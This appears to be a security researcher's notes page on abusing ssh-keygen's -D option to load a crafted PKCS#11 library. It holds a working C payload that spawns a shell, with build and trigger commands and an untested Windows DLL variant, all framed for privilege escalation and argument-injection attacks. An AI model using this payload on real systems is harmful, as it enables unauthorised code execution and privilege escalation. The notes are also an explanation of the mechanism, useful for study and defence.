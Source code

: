 The `ssh-keygen` command can be used to load a shared library with the `-D` flag. This can be useful for privilege escalation, or to translate to arbitrary code execution from argument injection, file overwrites, etc.
The man page says the following,
```plaintext
-D pkcs11
             Download the public keys provided by the PKCS#11 shared library pkcs11. When used in combination with -s, this option indicates that a CA key resides in a PKCS#11 token.
```

# Payload PoC
```c
// lib2shell.c
#include <stdio.h>
#include <unistd.h>

#define SHELL_COMMAND "/bin/sh"

void C_GetFunctionList()
//  __attribute__ ((constructor)) **Not necessarily needed**
{
    printf("Starting %s\n", SHELL_COMMAND);
    long long err = execl(SHELL_COMMAND, "/bin/sh", "-c", SHELL_COMMAND, NULL);
    printf("Result: %lld\n", err);
}
```
```bash
gcc -shared -o lib2shell.so lib2shell.c
ssh-keygen -D ./lib2shell.so
```
> [!tip]
> Learn more about [[../Language Specific/C_C++/GCC Compiler Specific Features#GCC Constructor-Destructor Attribute|__attribute__ ((constructor))]] here. 

## Payload Mechanism
First, I needed to understand the structure of the payload. The mechanism loads a shared library (`*.so` on Unix, `*.dll` on Windows), so I probably needed to export some predefined symbol that ssh-keygen was expecting.
A standard way to load a shared library in C is to use the [`dlopen`](https://linux.die.net/man/3/dlopen) function. I searched the OpenSSH source code for this function, and found what I was looking for in [`ssh-pkcs11.c`](https://github.com/openssh/libopenssh/blob/ea5ceecdc2037c5e6e807ab3702fbe3f319351d0/ssh/ssh-pkcs11.c#L486):
```c
// [...]
    /* open shared pkcs11-libarary */
    if ((handle = dlopen(provider_id, RTLD_NOW)) == NULL) {
        error("dlopen %s failed: %s", provider_id, dlerror());
        goto fail;
    }
    if ((getfunctionlist = dlsym(handle, "C_GetFunctionList")) == NULL) {
        error("dlsym(C_GetFunctionList) failed: %s", dlerror());
        goto fail;
    }
    p = xcalloc(1, sizeof(*p));
    p->name = xstrdup(provider_id);
    p->handle = handle;
    /* setup the pkcs11 callbacks */
    if ((rv = (*getfunctionlist)(&f)) != CKR_OK) {
        error("C_GetFunctionList failed: %lu", rv);
        goto fail;
    }
    // [...]
```
The variable provider_id contains the library file path, and the function returns a handle that can be used to interact with the library in memory.
```c
handle = dlopen(provider_id, RTLD_NOW)
```

Next, it searches the newly-loaded library for an exported function called `C_GetFunctionList` and stores the function pointer in the variable `getfunctionlist`
```c
getfunctionlist = dlsym(handle, "C_GetFunctionList")
```
If `C_GetFunctionList` is found, the function is called,
```c
rv = (*getfunctionlist)(&f)
```

After that, it doesn't really matter what happens. We control the code inside `C_GetFunctionList`, so we can do whatever we want. For my scenario, I wanted to get an elevated shell, so the easiest thing to do would be to call one of the functions in the [exec](https://linux.die.net/man/3/exec) family to transform the ssh-keygen process into a new shell instance.
To summarize, I needed to create a shared library (`*.so`) that exports a function called `C_GetFunctionList`, and that function would call something like the following:

```c
execl("/bin/sh", "/bin/sh", NULL);
```

## Untested Windows Payload
```c
#define WIN32_LEAN_AND_MEAN    // Exclude rarely-used stuff from Windows headers

#include <windows.h>
#include <stdio.h>
#include <process.h>

#define SHELL_COMMAND "C:\\Windows\\System32\\cmd.exe"

BOOL APIENTRY DllMain(HMODULE h_module, DWORD  ul_reason_for_call, LPVOID lp_reserved)
{
    long long err = -2;
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        puts("[lib2shell by SeanP]");
        printf("Starting %s\n", SHELL_COMMAND);
        err = _execl(SHELL_COMMAND, "C:\\Windows\\System32\\cmd.exe", "/c", SHELL_COMMAND, NULL);
        printf("Result: %lld\n", err);
        break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```
